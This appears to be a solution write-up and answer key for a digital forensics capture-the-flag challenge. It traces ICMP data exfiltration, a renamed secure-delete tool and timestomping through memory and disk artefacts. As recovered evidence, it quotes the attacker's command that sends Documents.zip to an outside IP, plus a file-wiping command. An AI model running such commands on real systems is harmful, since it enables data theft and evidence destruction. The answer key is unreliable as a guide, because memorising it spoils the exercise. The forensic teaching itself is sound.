# Old is Gold Solution


**Please note** - This challenge does not include any downloadable artifacts. This challenge can only be completed in the hosted environment.

We are provided with a hard drive image of the system. Let's first mount it in Autopsy. 

1. On the Windows analyst VM, open Autopsy
2. Click `New Case`
3. Give it a `Case Name`
4. Change `Base Directory` to `Documents` folder
5. Click `Next`
6. Give it a `Case Number`
7. Click `finish`
8. Select type of data source to add as `Disk Image or VM File`, click `Next`
9. Either browse to the evidence image or enter path as `D:\image.dd`, and click `Next`
10. Click `Deselect all` to avoid running any ingest modules, and click `Next`
11. It will take a few minutes for the image to be added to autopsy, once it is done, click `Finish`

### Q1 Provide the process ID of the process that was used in connecting to the suspicious IP (1.66.20.98)

This kind of question is usually answered by analyzing a memory image but as mentioned in the challenge description, the incident responder forgot to image memory of the system. Let's see if there is `C:\hiberfil.sys` present in the Hard drive image as it is the compressed version of RAM. 

12. Expand `Data Sources` -> `image.dd` -> `vol3`, you'll notice that `hiberfil.sys` is present on the disk

    

13. Export this file out. Right click on the file, click `Extract File(s)`, select folder to export it to as `Desktop`, click `Save`

    Next step is to convert `hiberfil.sys` to raw memory. There are two tools present on the windows analyst system that can help with this conversion - `Hibernation-Recon` and `volatility`. `Volatility` takes a long time for this conversion, therefore, let's use `hibernation-recon`

14. Open `Hibernation-Recon` folder from the Desktop, and open `HibernationRecon.exe`

15. Click `OK` to free mode enabled

16. Click `Process hiberfil.sys`

17. Select the previously exported `hiberfil.sys` from Desktop, and click Open

18. Select the output folder as `Desktop`, click OK

    `HibernationRecon` is now decompressing `hiberfil.sys`. It will take a few minutes (~4 min) for the process to complete. 

19. Once the conversion is complete, you can take note of OS, version, architecture type information as this will be needed when processing raw image using volatility. 

    

    The raw image is saved to a folder on Desktop named `HibRec-<date and time>`

    Next step is to analyze this image using volatility.

20. Open command prompt 

21. Change directory to volatility location.

    ```
    cd C:\ProgramData\chocolatey\lib\volatility\tools\volatility_2.6_win64_standalone\
    ```

22. Run volatility and list the processes running in memory using `pslist` plugin 

    ```
    volatility_2.6_win64_standalone.exe -f C:\Users\User\Desktop\HibRec_2021-08-23-09-48-56-21849\ActiveMemory.bin --profile=Win7SP0x86 pslist
    ```
    You'll notice that only one text editor process (`sublime_text.exe`) is running. The process ID of this process is the answer to this question.

### Q2 Provide the IP address that received the exfiltrated data.

### Q3 Provide the MD5 of the file that was exfiltrated. 

### Q4 Name the executable that the attacker used to cover his tracks (delete other files) 

Steps to solving question 2, 3, and 4 are as follows - 

All we know about exfiltrated data is that it was exfiltrated in ICMP packets. let's search memory image for the keyword `icmp`. 

23. We can use `strings.exe`. 

    ```
    cd C:\ProgramData\chocolatey\bin
    strings C:\Users\User\Desktop\HibRec_2021-08-23-09-48-56-21849\ActiveMemory.bin | grep icmp
    ```

    From the search results, we have found a couple of important nuggets of information - 

    * Probably `icmp_exfil_client.exe` is the file that was used for exfiltrating data and is located at `C:\Users\Ashlyn.Weldon\`

    * the command executed was `icmp_exfil_client.exe -f Documents.zip -d 138.219.4.239 -c 2048 -s 1 -e base64`
      * probably the file exfiltrated is `Documents.zip` which is located in the same folder as the exfil application and the file is exfiltrated to that IP (answer to question 2)

    * `temp.exe` was used against `icmp_exfil_client.exe` (`temp.exe -accepteula icmp_exfil_client.exe`)

24. If we want we can extract the `icmp_exfil_client.exe` from image mounted in autopsy to analyze it further

25. Reopen autopsy and browse to `C:\Users\Ashlyn.Weldon`, you'll notice both `icmp_exfil_client.exe` and `Documents.zip` are not present in this folder.

    From the above string search we also learnt about `temp.exe`

26. Let's do another string search this time looking for `temp.exe`

    ```
    strings C:\Users\User\Desktop\HibRec_2021-08-23-09-48-56-21849\ActiveMemory.bin | grep temp.exe
    ```

    From the string search we know,

    * the location of temp.exe - `C:\Windows\system32\`
    * and that is was executed against `Documents.zip` and `icmp_exfil_client.exe`

    Since both files are missing from the hard drive image, we may assume that temp.exe was used to delete the two files. 

    We can prove this by extracting temp.exe from autopsy.

27. Reopen autopsy and browse to `C:\Windows\System32`

28. Right click on `temp.exe` , click `Extract File(s)`, and save it to Desktop

29. Create an empty text file on the Desktop and name it `temp.txt`

30. Now run `temp.exe` against `temp.txt` to see what happens

    

    You'll notice temp.exe is secure file deleting tool and probably the reason why the deleted files `icmp_exfil_client.exe` and `Documents.zip` are not showing up in autopsy. This is also the answer to question 4. 

    Now to confirm answer to question 2 and find answer to question 3, we need to access the deleted files. So, the next step is to see if there are any volume shadow copies available on this system (in the `image.dd` file)

31. To access volume shadow copies, lets move to SIFT analyst workstation, and open the attached ISO file

    Within the iso you'll find `image.dd` file. 

    First let's verify if there are any volume shadow copies present in the disk image.

32. To do so, run `fdisk` against the image file to find the offset of the main partition

    ```
    sudo fdisk -l image.dd
    ```

    

    The main partition starts at sector 206848 or 105906176 byte. This offset info will be used in the next command

33. Next, we will use `vshadowinfo` command to verify if volume shadow copies are present 

    ```
    sudo vshadowinfo -o 105906176 image.dd
    ```

    As you may notice there are 3 volume shadow copies present. 

    

34. Let's mount all three shadow copies. 

    ```
    sudo vshadowmount -o 105906176 image.dd /mnt/vss/
    sudo mount -o ro,loop,show_sys_files,streams_interface=windows /mnt/vss/vss1 /mnt/shadow_mount/vss1
    sudo mount -o ro,loop,show_sys_files,streams_interface=windows /mnt/vss/vss2 /mnt/shadow_mount/vss2
    sudo mount -o ro,loop,show_sys_files,streams_interface=windows /mnt/vss/vss3 /mnt/shadow_mount/vss3
    ```

35. Now look through all three mounted copies searching for `icmp_exfil_client.exe` and `Documents.zip` in `C:\Users\Ashlyn.Weldon` folder.

    

    You'll notice that both files are present in volume shadow copy 3.

36. for question3 we need to find the MD5 of `Documents.zip`

    ```
    md5sum /mnt/shadow_mount/vss3/Users/Ashlyn.Weldon/Documents.zip
    ```

    

37. Now that we have `icmp_exfil_client.exe`, we can analyze this file further and confirm that this is the file that was used for exfiltration. We can also transfer this to the Windows analyst workstation and run it with `-h` option to display the help menu.

     

38. One of the ways to transfer file across systems is to create a shared folder on one system and mount that share on the other system. To do so, 
*  First IP both the VMs.
    For SIFT, one way is to turn on Network Manager (`sudo service network-manager start`) and then use Settings->Network to configure the IP address
*  Create a shared folder on the Windows system
    ```
    net share share=C:\Users\User\Desktop\share /grant:everyone,full
    ```
*  Mount the shared folder on SIFT workstation
    ```
    sudo mount -t cifs -o username=User //<Windows IP>/share /mnt/windows_mount
    ```

### Q5 What time did the attacker upload the file referenced in the previous question on this system?

39. When looking at the timestamps for temp.exe in autopsy, we can see that all MACB timestamps are from 2009 but we clearly know that this executable was used recently. This might indicate occurrence of time stomping. To find the actual time when this file was used on the system, we will need to analyze $MFT file.

    

40. From autopsy, extract `$MFT` file present in the root of the file system

    

41. Use MFTECmd.exe tool present on the Desktop to parse $MFT file

    

    Next we will use Timeline Explorer present on the Desktop to open the parsed `mft.csv` file

42. Open `TimelineExplorer` folder, and double click `TimelineExplorer.exe`

43. From `Timeline Explorer` window, open `mft.csv`

44. In the `File Name` column search for `temp.exe`

    

45. Scroll through the right and compare x10 and x30 timestamps. x10 timestamps are from $STANDARD_INFO attribute and x30 timestamps are from $FILENAME attribute. So the timestomping activity only changed the $STANDARD_INFO timestamps 

    

46. The answer to this question is in x30 timestamps

### Q6 What was the previous name of this file (The file referenced in the previous two questions)? The filename when it was uploaded to the system by the attacker.

This means that this file was renamed and the new name is temp.exe. We have to find what was the previous name. For this we will analyze `C:\$Extend\$UsnJrnl:$J`file



47. Extract this file from autopsy

48. Again, use the MFTECmd.exe tool to parse this file

    

49. Use timeline explorer to open the `usnjrnlj.csv` file

50. In the `Name` column search for `temp.exe`, note the `Entry Number` associated with it. In this case it is `66551`. 

    

51. Clear the filter for `Name` column

52. Filter for that entry number (`66551`) in the `Entry Name` column

53. Analyze the output, focus on `Name` and `Update Reasons` columns. You'll notice that `wipe.exe` was the previous name for this file. 

    

## Answers
1. 2108
2. 138.219.4.239
3. e1c5f71a560fcfd8b43663e007f99461
4. temp.exe
5. 2021-08-21 14:42:09 UTC
6. wipe.exe

